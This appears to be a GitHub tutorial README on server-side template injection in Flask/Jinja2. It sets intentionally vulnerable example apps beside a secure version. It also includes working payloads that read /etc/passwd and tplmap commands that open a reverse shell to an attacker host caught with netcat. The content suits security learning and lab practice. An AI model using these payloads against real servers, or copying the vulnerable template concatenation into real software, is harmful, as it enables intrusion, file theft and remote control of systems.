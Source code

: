 # SSTI-Basics
Basic overview of SSTI to RCE

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.


Vulnerable Code (Flask & Jinja2) Example 1

```
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')    
    output = Jinja2.from_string('Hello ' + name + '!').render()  // The name variable is concatenating to the template string

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=
// Replace IP & Port for your environment

```
Secure Code (Flask)

```

from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
Jinja2 = Environment()

@app.route("/page")
def page():

    name = request.values.get('name')   
    output = Jinja2.from_string('Hello {{name}}!').render(name = name)  // The name variable gets passed to the template context and processed server-side

    return output

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8080)
    
// URL: http://127.0.0.1:8080/page?name=   
// Replace IP & Port for your environment    
```
SSTI Exploitation

SSTI Vulnerability Test

```
curl -g http://127.0.0.1:8080/page?name={{5*5}}
Output: Hello 25

```
SSTI /etc/passwd Test

```
curl -g "http://127.0.0.1:8080/page?name={{+''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()+}}"

```

SSTI Reverse Shell

Expliot for Reverse Shell
```
python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell <attacker_ip> <attacker_port>
Example: python tplmap.py -u http://127.0.0.1:8080/page?name= --reverse-shell 10.10.10.10 1337
```
Capture Reverse Shell

```
nc -lvnp 1337

```
Vulnerable Code (Flask & Jinja2) Example 2

Create new file called vuln.py
```
from flask import Flask, request, render_template_string
from jinja2 import Template

app = Flask(__name__)
app.config.from_pyfile('config.py')

@app.route("/",  methods=['GET'])
def get_username():
    return render_template_string(
        """
        <form action="/hello">
            <label for="username">Enter username:</label><br>
            <input type="text" size="50" name="username" ><br>
            <input type="submit" value="Submit">
        </form> 
        """
    )

@app.route("/hello",  methods=['GET', 'POST'])
def say_hello():
    username = request.args.get('username')
    template = Template(
        """
        <h2> Hello <i style='color: royalblue;'> \
            {{ username }} </i>! Nice to meet you </h2>
        """
    )
    source = template.render(username=username)
    a = render_template_string(source)
    return a

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9999)
```

Create config file called config.py
```
import os
VERY_SECRET = os.environ.get('VERY_SECRET')
```
Test Vulnerability
```
http://127.0.0.1:9999/hello?username={{5*5}}
```
Exfiltrate the /etc/passwd file
```
http://127.0.0.1:9999/hello?username={{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```
Get Reverse Shell
```
python tplmap.py -u http://127.0.0.1:9999/hello?username= --reverse-shell 10.10.10.10 1337
```
